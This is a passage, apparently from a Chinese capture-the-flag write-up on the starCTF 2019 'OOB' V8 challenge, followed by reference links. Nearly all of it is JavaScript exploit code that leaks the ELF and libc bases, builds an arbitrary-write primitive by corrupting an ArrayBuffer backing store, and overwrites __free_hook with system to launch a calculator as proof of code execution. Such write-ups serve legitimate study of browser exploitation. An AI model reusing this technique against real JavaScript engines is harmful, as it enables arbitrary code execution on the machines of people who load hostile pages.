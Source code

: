 ```javascript
var leak_constructor_addr = read64(leak_code_addr + 0x41n);
console.log("[*] leak constructor addr : 0x" + hex(leak_constructor_addr));

var elf_base = leak_constructor_addr - 0xFC8780n;
console.log("[*] elf_base: 0x" + hex(elf_base));
var free_got_addr = elf_base + 0x12AA8B8n;
var free_addr = read64(free_got_addr);
var libc_base = free_addr - 0x9d850n;
console.log("[*] libc_base: 0x" + hex(libc_base));
var system_addr = libc_base + 0x55410n;
console.log("[*] system_addr: 0x" + hex(system_addr));
var free_hook_addr = libc_base + 0x1eeb28n;
console.log("[*] free_hook_addr: 0x" + hex(free_hook_addr));

var data_buf = new ArrayBuffer(8);
var data_view = new DataView(data_buf);
var backing_store_addr = addressOf(data_buf) + 0x20n;

function dataview_write64(addr, data)
{
	write64(backing_store_addr, addr);
	data_view.setFloat64(0, i2f(data), true);
}

function get_shell()
{
	let buffer = new ArrayBuffer(0x1000);
	let dataview = new DataView(buffer);
	dataview.setFloat64(0, i2f(0x6e69622f7273752fn), true); // /usr/bin/gnome-calculator
	dataview.setFloat64(8, i2f(0x632d656d6f6e672fn), true); //
	dataview.setFloat64(16, i2f(0x6f74616c75636c61n), true); // 
	dataview.setFloat64(24, i2f(0x72n), true);
	dataview_write64(free_hook_addr, system_addr);
}
get_shell();
```



### 参考链接

https://eternalsakura13.com/2018/06/26/v8_environment/

https://www.anquanke.com/post/id/207483

https://github.com/sixstars/starctf2019/tree/master/pwn-OOB

https://migraine-sudo.github.io/2020/02/15/v8/